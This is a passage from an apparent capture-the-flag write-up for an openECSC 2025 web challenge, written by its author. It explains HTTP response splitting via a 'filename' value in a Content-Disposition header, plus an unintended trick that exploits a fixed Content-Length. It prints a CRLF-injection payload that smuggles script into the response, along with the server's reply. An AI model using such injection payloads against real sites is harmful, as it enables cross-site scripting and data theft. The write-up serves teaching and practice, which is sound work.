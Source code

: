 ![](https://github.com/siunam321/CTF-Writeups/blob/main/openECSC-2025/images/Pasted%20image%2020251003193631.png)

Nice!

After this, we can also exfiltrate the flag message via **bypassing CSP directive `default-src` with source `self` using redirect**!

*Sadly, during developing this challenge, I completely forgot to limit `filename` length, leading to the following unintended method to bypass the invalid syntax :(*

#### Unintended: Fixed `Content-Length` Value

You might notice that when we do response splitting, **the `Content-Length` response header's value didn't change**:

```
filename=anything"%0d%0a%0d%0aalert(origin)
```

Response:

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.13.7
Content-Type: text/html; charset=utf-8
Content-Length: 90
Content-Disposition: attachment; filename="anything"

alert(origin).html"

<h1>Message (UUIDv4: 62539c2f-92bd-48ae-a24f-2bc534c6ed22)</h1><code><pre>foo</pre></code>
```
